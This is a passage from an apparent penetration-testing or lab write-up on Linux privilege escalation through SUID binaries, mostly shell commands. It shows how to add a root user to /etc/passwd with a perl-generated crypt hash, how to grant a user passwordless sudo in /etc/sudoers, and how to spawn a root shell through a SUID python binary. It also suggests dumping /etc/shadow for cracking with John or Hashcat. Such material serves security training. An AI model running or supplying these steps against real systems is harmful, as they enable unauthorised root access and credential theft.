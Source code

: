 With SUID on the editor, we can now edit any file as the root user. How about passwd?

``` bash
nano /etc/passwd

# root:x:0:0:root:/root:/bin/bash
# root: = username
# :x: = Password - `x` indicates stored in /etc/shadow
# :0: = UID
# :0: = GID
# :root: = GECOS field for full name etc.
# :/root = Home Directory
# :/bin/bash = Command line shell on login

```

Armed with this information, we can add a new root user to the system. 
In order to do so however, we do need a crypt hash from a password for the 2nd field.

```perl
perl -e 'print crypt("PASSWORD123", "salt") "\n"'
# returns poD7u2nSiBSLk
# Open passwd with nano again
nano /etc/passwd
# Add a new root user
pom:poD7u2nSiBSLk:0:0:root:/root:/bin/bash
# Switch to the new root user
su pom
# Verify identity
id
```

An alternative to adding a new user, could simply be to update the `/etc/sudoers` file:

```bash
# User privilege specification 
root     ALL=(ALL:ALL) ALL
sam      ALL=(ALL:ALL) NOPASSWD:ALL

# After saving, verify sudo
sudo id
```

Another possibility is setting the SUID bit on something like `Python` or `Perl` which can be easily abused by running scripts. 

```bash
# Determine if Python has SUID
find /usr/bin/* -user root -perm -4000 -print 2>/dev/null

# Gain root
/usr/bin/python3.9 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Yet another possibility is a program like `Cat`. Cat is used for reading files, but in this case with SUID can be used to read and dump the contents of /etc/shadow which can then be brute forced by John or Hashcat.
